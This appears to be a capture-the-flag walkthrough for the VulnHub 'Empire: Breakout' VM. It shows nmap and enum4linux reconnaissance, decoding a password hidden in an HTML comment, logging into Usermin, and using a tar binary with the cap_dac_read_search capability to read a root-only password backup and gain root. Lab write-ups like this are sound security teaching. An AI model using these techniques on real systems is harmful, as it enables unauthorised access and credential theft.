





# Empire Breakout walkthrough

The virtual machine was downloaded from [Empire: Breakout ~ VulnHub](https://www.vulnhub.com/entry/empire-breakout,751/)

The IP address is found with `netdiscover`:

```bash
$ sudo netdiscover
 Currently scanning: 192.168.0.0/16   |   Screen View: Unique Hosts                                                                                         

 3 Captured ARP Req/Rep packets, from 3 hosts.   Total size: 180                                                                                            
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.56.1    0a:00:27:00:00:00      1      60  Unknown vendor                                                                                           
 192.168.56.100  08:00:27:82:63:e8      1      60  PCS Systemtechnik GmbH                                                                                   
 192.168.56.116  08:00:27:4a:a6:f2      1      60  PCS Systemtechnik GmbH 
```

IP address of the VM is `192.168.56.116`. It can be confirmed if we look at the victim screen:



Then, a nmap scan to look for open ports:

```bash
$ sudo nmap -sV 192.168.56.116
Nmap scan report for 192.168.56.116
Host is up (0.000096s latency).
Not shown: 995 closed tcp ports (reset)
PORT      STATE SERVICE     VERSION
80/tcp    open  http        Apache httpd 2.4.51 ((Debian))
139/tcp   open  netbios-ssn Samba smbd 4
445/tcp   open  netbios-ssn Samba smbd 4
10000/tcp open  http        MiniServ 1.981 (Webmin httpd)
20000/tcp open  http        MiniServ 1.830 (Webmin httpd)
MAC Address: 08:00:27:4A:A6:F2 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 54.71 seconds
```

A default Apache server runs on port 80 :



Ports 10000 and 20000 runs MiniServ, [an interface to manage a Linux server](https://en.wikipedia.org/wiki/Webmin) :





## Apache server analysis

In the source code, we can find the following comment:

```html
<!--
don't worry no one will get here, it's safe to share with you my access. Its encrypted :)
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>++++++++++++++++.++++.>>+++++++++++++++++.----.<++++++++++.-----------.>-----------.++++.<<+.>-.--------.++++++++++++++++++++.<------------.>>---------.<<++++++.++++++.
-->
```

It clearly looks like [Brainfuck](https://en.wikipedia.org/wiki/Brainfuck) code. By using an online decompiler such as https://www.dcode.fr/langage-brainfuck, it can be decoded:

```
.2uqPEfj3D<P'a-3
```

It doesn't look like a common hash type, I assume it's a password. Now, we need to look for a username that could be used on Usermin ports. From the nmap scan, we know there are open Samba ports. In this case, [enum4linux](https://labs.portcullis.co.uk/tools/enum4linux/) is one of the tools focused on finding data on Windows/Samba hosts.

```bash
$ enum4linux -a 192.168.56.116 
[...]                                                                                                                       
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\cyber (Local User)                                                                  
```

There is a user `cyber` which catched my attention. If we try on the 20000 Usermin, it works!



We are identified as user `cyber`. There is an interesting command shell in the footer of the sidebar:

```bash
[cyber@breakout ~]$ whoami
cyber
[cyber@breakout ~]$ pwd
/home/cyber
[cyber@breakout ~]$ ls -a
.
..
.bash_history
.bash_logout
.bashrc
.filemin
.gnupg
.local
.profile
.spamassassin
tar
.tmp
.usermin
user.txt
```

There's a flag given in the `user.txt` file:

```bash
[cyber@breakout ~]$ cat user.txt
3mp!r3{You_Manage_To_Break_To_My_Secure_Access}
```

There is also a `tar` binary which seems to work like the normal tool:

```bash
[cyber@breakout ~]$ ./tar --help
Usage: tar [OPTION...] [FILE]...
GNU 'tar' saves many files together into a single tape or disk archive, and can
restore individual files from the archive.

Examples:
  tar -cf archive.tar foo bar  # Create archive.tar from files foo and bar.
  tar -tvf archive.tar         # List all files in archive.tar verbosely.
  tar -xf archive.tar          # Extract all files from archive.tar.
[...]
```

Why is there a `tar` binary in this folder? Is there something different from the default tool? [getcap](https://man7.org/linux/man-pages/man8/getcap.8.html) is a tool to examine file capabilities:

```bash
[cyber@breakout ~]$ which tar
/bin/tar
[cyber@breakout ~]$ getcap /bin/tar
[cyber@breakout ~]$ getcap ./tar
./tar cap_dac_read_search=ep
```

The local `tar` has a special capability:

```bash
CAP_DAC_READ_SEARCH
- Bypass file read permission checks and directory read and execute permission checks;
- invoke open_by_handle_at(2);
- use the linkat(2) AT_EMPTY_PATH flag to create a link to a file referred to by a file descriptor.
```

> Bypass file read permission checks

Hum... Is there a file somewhere else on the victim that would require root privileges?

```bash
[cyber@breakout ~]$ ls -a
.
..
apt.extended_states.0
.old_pass.bak
[cyber@breakout ~]$ cat .old_pass.bak
cat: .old_pass.bak: Permission denied
```

The idea is to create a TAR archive with the local tool and finally extract it in `/home/cyber`:

```bash
[cyber@breakout ~]$ ./tar cvzf pass.tar.gz /var/backups/.old_pass.bak
/var/backups/.old_pass.bak
[cyber@breakout ~]$ tar xvzf pass.tar.gz
var/backups/.old_pass.bak
[cyber@breakout ~]$ cat var/backups/.old_pass.bak
Ts&4&YurgtRX(=~h
```

This password doesn't work on the 10000 Usermin... However, if we try to log as root:

```bash
[root@breakout ~]$ whoami
root
[root@breakout ~]$ id
uid=0(root) gid=0(root) groups=0(root)
[root@breakout ~]$ cd /root/
[root@breakout ~]$ ls
rOOt.txt
[root@breakout ~]$ cat rOOt.txt
3mp!r3{You_Manage_To_BreakOut_From_My_System_Congratulation}

Author: Icex64 & Empire Cybersecurity
```